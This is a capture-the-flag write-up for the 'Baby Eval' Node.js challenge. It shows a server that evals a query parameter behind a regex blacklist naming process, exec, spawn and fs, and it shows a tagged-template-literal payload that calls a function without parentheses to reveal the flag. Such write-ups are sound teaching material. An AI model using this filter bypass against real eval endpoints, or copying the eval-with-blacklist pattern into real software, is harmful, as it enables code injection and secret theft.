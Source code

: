 # Baby Eval
## The App
Baby Eval is a Node app which lists has a path `/` which lists some information including the server source code. As seen in the code the information comes from the following function:

```javascript
function directory(keys) {
    const values = {
        "title": "View Source CTF",
        "description": "Powered by Node.js and Express.js",
        "flag": process.env.FLAG,
        "lyrics": "Good job, you’ve made it to the bottom of the mind control facility. Well done.",
        "createdAt": "1970-01-01T00:00:00.000Z",
        "lastUpdate": "2022-02-22T22:22:22.222Z",
        "source": require('fs').readFileSync(__filename),
    };

    return "<dl>" + keys.map(key => `<dt>${key}</dt><dd><pre>${escape(values[key])}</pre></dd>`).join("") + "</dl>";
}
```

The webpage is created here:
```javascript
const payload = req.query.payload;

if (payload && typeof payload === "string") {
    const matches = /([\.\(\)'"\[\]\{\}<>_$%\\xu^;=]|import|require|process|proto|constructor|app|express|req|res|env|process|fs|child|cat|spawn|fork|exec|file|return|this|toString)/gi.exec(payload);
    if (matches) {
        res.status(400).send(matches.map(i => `<code>${i}</code>`).join("<br>"));
    } else {
        res.send(`${eval(payload)}`);
    }
} else {
    res.send(directory(["title", "description", "lastUpdate", "source"]));
}
```

## Tried solutions
The goal was to get the flag. First I saw that the code can execute `eval` by entering a `payload` as the `GET` query parameter. I first did not see that the ReEx is a Blacklist, not a whitelist, so many things don't work including calling functions because `(` and `)` are not allowed. Then I googled for a way to call a function without prenthesis. Found
```javascript
alert\`hello\`
```
and remembered that JavaScript Template Literals can have tags which are basically functions which first parameter is a list of strings. This list contains the parts of the string, split by the injection variables (`${x}`).

## Solution
```typescript
directory`flag`
```

```
?payload=directory`flag`
```

Because we don't have an injection variable, the argument of `directory` is just `[ "flag" ]`.
